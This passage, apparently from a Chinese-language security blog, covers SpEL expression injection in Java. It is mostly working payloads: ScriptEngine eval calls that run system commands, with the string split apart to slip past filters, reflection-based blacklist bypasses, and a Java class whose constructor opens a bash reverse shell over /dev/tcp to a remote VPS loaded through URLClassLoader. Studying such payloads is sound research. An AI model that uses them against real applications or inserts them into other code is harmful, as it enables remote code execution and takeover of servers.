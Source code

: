 那么payload也就显而易见

`nashorn` 作 Engine

JAVA

```
String spel = "T(javax.script.ScriptEngineManager).newInstance().getEngineByName(\"nashorn\")" + 
".eval(\"s=[3];s[0]='cmd';" +  
"s[1]='/C';s[2]='calc';java.la\"+\"ng.Run\"+\"time.getRu\"+\"ntime().ex\"+\"ec(s);\")";
```

`javascript` 作 Engine，这里我复现失败了。

JAVA

```
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);
```

#### 一些尚未复现成功的 PoC

JAVA

```
// 黑名单过滤".getClass("，可利用数组的方式绕过，还未测试成功
''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'calc')
 
// JDK9新增的shell，还未测试
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```

### 通过 ClassLoader 类加载器构造 PoC&Bypass

- 关于 ClassLoader [Java反序列化基础篇-05-类的动态加载](http://localhost:4000/2022/06/03/Java反序列化基础篇-05-类的动态加载/)

#### URLClassLoader 结合 SpEL 表达式注入

先构造一份 Exp.jar , 放到远程 vps 即可，.class 也行

一份通过构造方法反弹 shell 的 Exp.java 实例

JAVA

```
public class Exp{
    public Exp(String address){
        address = address.replace(":","/");
        ProcessBuilder p = new ProcessBuilder("/bin/bash","-c","exec 5<>/dev/tcp/"+address+";cat <&5 | while read line; do $line 2>&5 >&5; done");
        try {
            p.start();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
